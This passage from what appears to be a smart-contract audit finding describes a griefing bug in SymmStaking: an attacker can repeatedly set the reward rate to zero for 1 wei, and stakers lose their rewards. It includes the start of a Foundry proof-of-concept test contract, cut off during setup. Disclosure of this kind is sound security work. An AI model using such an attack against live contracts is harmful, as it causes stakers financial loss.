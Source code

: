 The stakers suffer a complete loss of rewards during the rate=0 period, which can be repeatedly triggered by an attacker with minimal cost (1 wei).

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { Symmio } from "../src/token/symm.sol";
import { SymmStaking } from "../src/staking/SymmStaking.sol";

contract MockRewardToken is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 1_000_000e18);
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract SymmStakingAttack is Test {

    ERC1967Proxy    public symmStakingProxy;
    SymmStaking     public symmStaking;
    Symmio          public mockSymmioToken;
    MockRewardToken public mockRewardToken;

    address public admin;
    address public alice;
    address public bob;
    address public attacker;


    function setUp() public {
        admin   = address(1);
        alice   = address(2);
        bob     = address(3);
        attacker  = address(4);
 
        vm.label(admin, "admin");
        vm.label(alice, "alice");
        vm.label(bob, "bol");
        vm.label(attacker, "attacker");

        vm.startPrank(admin);
        mockSymmioToken = new Symmio("mock", "mock", admin);
        mockSymmioToken.grantRole(mockSymmioToken.MINTER_ROLE(), admin);
        mockSymmioToken.mint(admin, 10000e18);

        mockSymmioToken.transfer(alice, 1000e18);
        mockSymmioToken.transfer(bob, 1000e18);
        mockSymmioToken.transfer(attacker, 1000e18);
        vm.stopPrank();
        

        SymmStaking staking = new SymmStaking();
        symmStakingProxy = new ERC1967Proxy(
            address(staking),
            abi.encodeWithSelector(staking.initialize.selector, admin, address(mockSymmioToken))
```